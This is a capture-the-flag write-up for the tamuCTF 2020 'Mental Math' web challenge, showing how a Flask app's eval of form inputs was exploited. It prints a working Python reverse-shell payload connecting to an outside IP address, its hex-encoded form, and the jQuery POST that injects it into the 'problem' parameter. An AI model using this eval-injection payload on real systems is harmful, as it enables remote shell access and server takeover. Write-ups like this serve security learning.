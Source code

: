 ```yaml
---
layout: blogpost
title:  "tamuCTF - Exploiting Python Eval"
date:   2020-03-23 03:32:01 +0300
categories: ctf
---
```


## Category: 
Web
## Difficulty: 
Hard
## Challenge: 
Mental Math
## Description: 
My first web app, check it out!
<br>
## Solution:

The application presents you with a math question and expects an answer. The interesting thing is that it makes an ajax call very often (any time it detects you input something to the box) and looks to see if you have submitted the answer to its question of course you would normally answer the question. When you do, it will accept your answer and spit another one out. It does so like this
<br>
```javascript
function submitProblem() {
    $.post("/ajax/new_problem", {'problem': $("#problem").html(), 'answer': $('#answer').val()}, function ( data ) {
      if (data.correct) {
        $('#problem').html(data.problem);
        $('#answer').val('');
      }
    });
  }
$(document).ready(function() {
  $("#answer").on('input', submitProblem);
  submitProblem();
});
```
<br>
What's even more interesting though is that youre able to respond with the servers question back at it... so when you do something like
<br>
```javascript
$.post("/ajax/new_problem", {'problem': 0+0, 'answer': 0+0}, function ( data ) {
  if (data.correct) {
    $('#problem').html(data.problem);
    $('#answer').val('');
  }
});
```
<br>
you get a response object saying that the answer was correct...
This means something on the back end must be executing our inputs on the server to test the parameters equality. This is when I noticed there was a comment on the HTML page containing the chars "% }{ %" which are used in Flask and Django. Python ```eval() or exec()```? In order to try and abuse this I tried to inject code with a request like
<br>
```javascript
$.post("/ajax/new_problem", 
  {'problem': 0+0, 'answer': "0;ls"}, function ( data ) {
  if (data.correct) {
    $('#problem').html(data.problem);
    $('#answer').val('');
  }
});
```
<br>
and many other queries, most of which didnt output anything or gave me a dreaded "Internal Server Error".<br>
The most interesting part of the Internal Server error was that it seemed to occur EVERY time under a single condition: I sent a post request using the console, and answer's value contained SOMETHING that was not a number. (different things I did to test this were sending the same request with $.ajax,$.get,$.post, python requests, and burpsuite)<br>
To see if this was simply a WAF looking for anything non-numeric, I base64 encoded a string with and without numeric strings, and sent both in the console with a post request with the format answer : btoa(string). As you'd expect, the string that was not purely numeric failed but the base64 encoded number still returned true whenever the query would've been true.<br>
After a lot of failures at injecting commands (they seemed to work but I wasnt getting output) I ended up converting my payloads to hex and trying to execute them with the same results as base64 encoding them.<br>
Finally I decided to try a reverse shell as a payload if I wasnt able to see the output, but was still able to execute code. After the ascii payload didnt work, the base64 encoded payload didnt work, and a hex payload didnt work, I realized that I had only been trying to inject the payload to the answer parameter because thats where I first noticed the vuln, but unless there was a predefined table for all of the possible math questions this app might give you, the problem must have also been calculating its own answer when an answer was compared to it.
<br>
Encoding this string into hex gave the payload
 <br>
```python
__import__('os').system("python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"3.14.67.85\",9000));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"])'")
```
<br>
<br>
```javascript
"\x5f\x5f\x69\x6d\x70\x6f\x72\x74\x5f\x5f\x28\x27\x6f\x73\x27\x29\x2e\x73\x79\x73\x74\x65\x6d\x28\x22\x70\x79\x74\x68\x6f\x6e\x20\x2d\x63\x20\x27\x69\x6d\x70\x6f\x72\x74\x20\x73\x6f\x63\x6b\x65\x74\x2c\x73\x75\x62\x70\x72\x6f\x63\x65\x73\x73\x2c\x6f\x73\x3b\x73\x3d\x73\x6f\x63\x6b\x65\x74\x2e\x73\x6f\x63\x6b\x65\x74\x28\x73\x6f\x63\x6b\x65\x74\x2e\x41\x46\x5f\x49\x4e\x45\x54\x2c\x73\x6f\x63\x6b\x65\x74\x2e\x53\x4f\x43\x4b\x5f\x53\x54\x52\x45\x41\x4d\x29\x3b\x73\x2e\x63\x6f\x6e\x6e\x65\x63\x74\x28\x28\x5c\x22\x33\x2e\x31\x34\x2e\x36\x37\x2e\x38\x35\x5c\x22\x2c\x39\x30\x30\x30\x29\x29\x3b\x6f\x73\x2e\x64\x75\x70\x32\x28\x73\x2e\x66\x69\x6c\x65\x6e\x6f\x28\x29\x2c\x30\x29\x3b\x6f\x73\x2e\x64\x75\x70\x32\x28\x73\x2e\x66\x69\x6c\x65\x6e\x6f\x28\x29\x2c\x31\x29\x3b\x6f\x73\x2e\x64\x75\x70\x32\x28\x73\x2e\x66\x69\x6c\x65\x6e\x6f\x28\x29\x2c\x32\x29\x3b\x70\x3d\x73\x75\x62\x70\x72\x6f\x63\x65\x73\x73\x2e\x63\x61\x6c\x6c\x28\x5b\x5c\x22\x2f\x62\x69\x6e\x2f\x73\x68\x5c\x22\x2c\x5c\x22\x2d\x69\x5c\x22\x5d\x29\x27\x22\x29"
```
<br>
I sent the post request while running a netcat listener on my local machine
<br>
```javascript
$.post("/ajax/new_problem", {"problem":"\x5f\x5f\x69\x6d\x70\x6f\x72\x74\x5f\x5f\x28\x27\x6f\x73\x27\x29\x2e\x73\x79\x73\x74\x65\x6d\x28\x22\x70\x79\x74\x68\x6f\x6e\x20\x2d\x63\x20\x27\x69\x6d\x70\x6f\x72\x74\x20\x73\x6f\x63\x6b\x65\x74\x2c\x73\x75\x62\x70\x72\x6f\x63\x65\x73\x73\x2c\x6f\x73\x3b\x73\x3d\x73\x6f\x63\x6b\x65\x74\x2e\x73\x6f\x63\x6b\x65\x74\x28\x73\x6f\x63\x6b\x65\x74\x2e\x41\x46\x5f\x49\x4e\x45\x54\x2c\x73\x6f\x63\x6b\x65\x74\x2e\x53\x4f\x43\x4b\x5f\x53\x54\x52\x45\x41\x4d\x29\x3b\x73\x2e\x63\x6f\x6e\x6e\x65\x63\x74\x28\x28\x5c\x22\x33\x2e\x31\x34\x2e\x36\x37\x2e\x38\x35\x5c\x22\x2c\x39\x30\x30\x30\x29\x29\x3b\x6f\x73\x2e\x64\x75\x70\x32\x28\x73\x2e\x66\x69\x6c\x65\x6e\x6f\x28\x29\x2c\x30\x29\x3b\x6f\x73\x2e\x64\x75\x70\x32\x28\x73\x2e\x66\x69\x6c\x65\x6e\x6f\x28\x29\x2c\x31\x29\x3b\x6f\x73\x2e\x64\x75\x70\x32\x28\x73\x2e\x66\x69\x6c\x65\x6e\x6f\x28\x29\x2c\x32\x29\x3b\x70\x3d\x73\x75\x62\x70\x72\x6f\x63\x65\x73\x73\x2e\x63\x61\x6c\x6c\x28\x5b\x5c\x22\x2f\x62\x69\x6e\x2f\x73\x68\x5c\x22\x2c\x5c\x22\x2d\x69\x5c\x22\x5d\x29\x27\x22\x29","answer":""}, function (data) {
      if (data.correct) {
          console.log(data);
      }
});
```
<br>
after sending the request we pop a reverse shell and get
<br>
![mental_math_flag](/assets/images/ctf/tamu2020/mental_math_flag.PNG)
